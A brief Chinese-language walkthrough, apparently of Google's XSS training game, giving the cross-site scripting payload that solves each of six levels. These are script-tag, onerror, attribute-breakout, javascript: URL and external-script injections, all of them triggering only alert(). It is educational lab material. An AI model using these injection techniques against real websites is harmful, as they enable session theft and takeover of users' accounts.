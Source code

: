 



## XSS靶场通关构造



> https://blog.csdn.net/abc_12366/article/details/82054946

1

输入框搞事情了

`<script>alert('hello,XSS!')</script>`



2

评论区搞事情了

`<img src="nowhere" onerror='alert("madness")'>`



3

在url搞事情，这边我自己没注意，它使用`“”`表示字符串，`''`表示标签里的字符串，没注意到卡了一会儿

`https://xss-game.appspot.com/level3/frame#1'/><script>alert('Hello,XSS!');</script>'`



4

类似于一个计时器，但不过根据描述需要绕过，当然也就是在输入框搞事情了

js动态引用参数问题

输入`3'`可以看到 `onload="startTime('3'');"`

尝试输入`3');alert('hello,XSS!`



5

这个可太刺激了，我竟然没发现能看源代码，亏我按F12看代码，在N次尝试下猜实现

输入转为链接过滤不严

看源代码按下面的`toggle`

构造如下：`https://xss-game.appspot.com/level5/frame/signup?next=javascript:alert(1)`





6

引入外部js，过滤不严导致绕过造成xss

#后面能访问到url所指的地方，比如将其替换为`baidu.com`

所以这边写个简易的javascript脚本

```js
alert(1);
```
